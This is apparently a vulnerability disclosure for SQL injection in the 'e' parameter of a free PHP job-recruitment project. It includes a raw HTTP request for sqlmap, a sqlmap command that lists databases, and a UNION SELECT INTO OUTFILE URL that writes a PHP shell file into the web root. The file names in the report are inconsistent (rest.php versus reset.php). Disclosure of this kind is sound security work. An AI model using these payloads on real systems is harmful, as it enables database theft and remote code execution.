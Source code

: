 # Job-recruitment-in-php has sql injection vulnerability in rest.php RCE

## supplier
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
rest.php
## describe
An unrestricted SQL injection attack exists in an Job-recruitment-in-php system.   The parameters that can be controlled are as follows: e. This function executes the e_log parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

![image-20241111085938985](https://github.com/user-attachments/assets/9686050b-972e-4919-84a5-fd3a551a2963)



## code analysis

The e parameter in rest.php is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection.

![image-20241111090040329](https://github.com/user-attachments/assets/b31d701c-701e-46fb-867e-dfdf3a10c4d7)

Injection via parameter e

## POC

### GET DATA

```
GET /reset.php?e=2* HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apdbj581m83cio8cj275e494dr
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

save as 2.txt

```
python sqlmap.py -r 2.txt --dbs
```

Get the database name: owlphin

![image-20241111091636550](https://github.com/user-attachments/assets/8bf8be54-2ae9-482b-ac80-43490d0c2b31)

![image-20241111090429024](https://github.com/user-attachments/assets/bcb6adac-4894-4c6d-8c00-91c03a20c877)

### Write Trojans

asset the url can write trojans: shell.php

```
http://airecruitmentsystem/reset.php?e=2' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,'<?php phpinfo();?>' into outfile 'D:/phpstudy_pro/WWW/ai-recruitment-system-master/shell.php'--+#
```

Then we can asset the shell.php.

exec phpinfo(); see the result.

```
http://airecruitmentsystem/shell.php
```

![image-20241111091348602](https://github.com/user-attachments/assets/e888bebe-7dec-41e8-854e-09f0a7cd9e39)

## Discover

于源天舟

